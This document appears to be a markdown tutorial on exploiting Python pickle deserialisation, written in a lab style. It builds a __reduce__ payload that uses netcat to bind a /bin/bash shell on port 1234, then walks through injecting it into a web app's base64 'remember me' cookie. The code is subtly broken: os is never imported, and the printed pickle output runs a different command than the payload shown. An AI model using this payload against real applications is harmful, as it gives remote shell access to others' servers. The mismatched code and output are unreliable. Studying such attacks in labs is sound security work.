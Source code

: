 # Python Pickle

Serialisation of object is used by application to make their storage  easier. If an application needs to store an instance of a class, it can  use serialisation to get a byte string representation of this object. When  the application needs to use the instance again, it will unserialise the string to get it.

[Python Script](pickle_code.py)

### Syntax Pickle

```python
import pickle
# initializing data to be stored in db 
Omkar = {'key' : 'Omkar', 'name' : 'Omkar Pathak',  
'age' : 21, 'pay' : 40000} 
Jagdish = {'key' : 'Jagdish', 'name' : 'Jagdish Pathak', 
'age' : 50, 'pay' : 50000} 
  
# database 
db = {} 
db['Omkar'] = Omkar 
db['Jagdish'] = Jagdish 
  
# For storing 
b = pickle.dumps(db)       # type(b) gives <class 'bytes'> 
  
# For loading 
myEntry = pickle.loads(b) 
print(myEntry) 

```

* Creating your own class and serialise it:

  ```python
  import pickle
  class Hack:
    def __init__(self):
      self.test1 = "test"  
      self.test2 = "retest"  
  
  h = Hack()
  b = pickle.dumps(h)
  ```

### Code execution with Pickle

* we will need to create a malicious object. The following example creates an object that will bind a shell on port `1234` and run `/bin/bash`

  ```python
  import pickle
  class Blah(object):
    def __reduce__(self):
      return (os.system,("netcat -c '/bin/bash -i' -l -p 1234 ",))
  
  h = Blah()
  print(pickle.dumps(h))
  ```
  
* `__reduce__` function returns in **tuple** or **string** 



### Finding where website uses pickle

* using proxy burpsuite we see that when we check `Remember me` it is base64 encoded in its **cookie** in response.

  if we decode it we see:

  ```
  (lp1
  Vabcd
  p2
  aS'44c6c8f44cfa3eb6c86db220969349fa'
  p3
  a.
  ```

  this response proves it is using **cPickle** the python2 version of **pickle** 
  
* so we will use this code:

  ```python
  import cPickle as pickle
  class Blah(object):
    def __reduce__(self):
      return (os.system,("netcat -c '/bin/bash -i' -l -p 1234 ",))
  
  h = Blah()
  print(pickle.dumps(h))
  ```

  which gives response like:

  ```
  cposix
  system
  p1
  (S'/usr/local/bin/score c6ff9c86-7094-459f-8d08-41d717b9e508'
  p2
  tp3
  Rp4
  .
  ```

  Now we will base64 encode this response

* then we will inspect the element and in the storage section we will change the **cache value of remember me** to this base64 encoded response.

  if we now reload the page we see that it won't work as remember me cache function will only work when there is not previous session in existence

  So we will delete the session cache and now reload the page.